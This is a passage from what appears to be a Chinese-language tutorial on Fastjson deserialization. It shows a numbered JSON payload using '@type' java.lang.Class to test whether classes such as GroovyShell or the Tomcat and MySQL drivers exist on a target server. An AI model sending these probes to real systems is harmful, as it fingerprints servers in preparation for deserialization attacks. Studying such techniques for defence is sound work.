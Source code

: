 [![](assets/1706959415-639bbdc31ce205c4084625e9db276e28.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708543840-a3a99b6c-0b31-4e57-a416-0182b474e51c.png)

## 三、探测服务器环境

## 3.1 空值判断法

待探测列表如下：

```plain
org.springframework.web.bind.annotation.RequestMapping
org.apache.catalina.startup.Tomcat
groovy.lang.GroovyShell
com.mysql.jdbc.Driver
java.net.http.HttpClient
```

`payload34`：

```plain
{"z": {"@type": "java.lang.Class","val": "org.springframework.web.bind.annotation.RequestMapping"}}
```

如果系统存在这个类，会返回一个类实例；如果不存在会返回`null`。  
例如：  
[![](assets/1706959415-755a3ab8069222ab52f0c8f0cebf8f10.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697709092447-0077cd01-74c0-49b6-bf29-bdd4e5997560.png)  
[![](assets/1706959415-2d7cca139d3c6f430dd44ca72e0387e0.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697709524535-60a323c8-ae51-4de2-85ee-1b549fdbc79e.png)

